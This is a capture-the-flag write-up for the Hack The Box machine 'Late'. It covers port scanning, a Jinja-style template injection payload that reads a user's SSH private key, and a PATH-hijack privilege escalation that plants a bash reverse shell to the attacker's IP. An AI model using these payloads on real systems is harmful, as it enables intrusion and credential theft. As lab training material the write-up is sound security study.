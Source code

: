 # HTB - Late

## Nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-26 20:09 CEST
Nmap scan report for 10.129.52.249
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.98 seconds
```

## Port 80

<img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-59-57.png">

When we go around this page we'll find out that they have a subdomain called "images.late.htb/".
<p>To access this we need to add this to our known hosts @ /etc/hosts/.
<p>When we mess around here we discover that this a python app image reader. What we want to do now is to break it.
<p>A known payload to inject code into python apps is to use double brackets with code forexample:
  
 ```
  input: {{ 2*2 }}
  output: 4
```
  
What we would need to here to insert the payload to a image and make it readable to the reader and it would respond to that.
<p>With help of this <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">page</a> with various payloads I managed to get user with this payload:
  
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
We extract the rsa key to ssh to the user without the password.

```

  <img src="https://github.com/UllernJ/CTF/blob/main/HTB/HTB-Late/Skjermbilde%20fra%202022-04-28%2021-58-54.png">
  
## root

  First of I want to check for vulnerabilities with <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">linpeas</a>.
  <p>I download it on my computer and make the "victim" download the linpeas from me. (because hackthebox wont let you download from github).
  <p>We can see that linpeas marks a folder named /usr/local/sbin.
  <p> Are we can find a file named ssh-alert.sh
    
```
    #!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
A SSH login was detected.
        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
```
    
 So what happens here is that root will call to this program every time someone ssh into the server.
<p>So what we can do here is exploit the programs <b>date</b> and <b>uname</b>. These programs are being called from path, so what we can do is to examine our path:

```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
 
Lets say we create a file named date as a executeable here. Root would run it because of the PATH misconfiguration.
I create a file named date with a reverse shell:
```
  bash -i >& /dev/tcp/10.10.16.6/1234 0>&1
```
  
What we need to do now is just to ssh into the server agian and root will execute the ssh-alert.sh that also runs "date" (our reverseshell).
BOOM ROOT
<p><img src="https://github.com/UllernJ/LateHTB/blob/main/root.png">

 
  
